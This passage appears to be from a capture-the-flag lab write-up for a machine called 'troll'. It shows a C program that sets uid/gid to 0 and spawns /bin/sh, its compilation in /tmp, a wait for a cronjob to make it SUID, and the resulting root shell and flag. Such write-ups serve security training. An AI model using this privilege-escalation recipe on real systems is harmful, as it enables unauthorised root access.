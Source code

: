 int main(void) {
	       setgid(0); setuid(0);
	       execl("/bin/sh","sh",0); }

overflow@troll:/tmp$ ls
root.c
```

Once the C file with root privileges is created, it can be compiled.

```
overflow@troll:/tmp$ gcc root.c -o root
```

Next, some time is given for the cronjob to run.

```
overflow@troll:/tmp$ ls -laht
total 20K
drwxrwxrwt  2 root     root     4.0K Sep 15 17:58 .
-rwxrwxr-x  1 overflow overflow 7.2K Sep 15 17:58 root
-rw-rw-r--  1 overflow overflow   80 Sep 15 17:58 root.c
```

### Exploitation

Executing newly created SUID with privilege escalation capabilities.

```
overflow@troll:/$ cd /tmp
overflow@troll:/tmp$ ls
root  root.c
overflow@troll:/tmp$ ./root
# whoami
Root
```

### Root Flag

```
# cd /root
# ls
proof.txt
# cat proof.txt	
Good job, you did it!
```
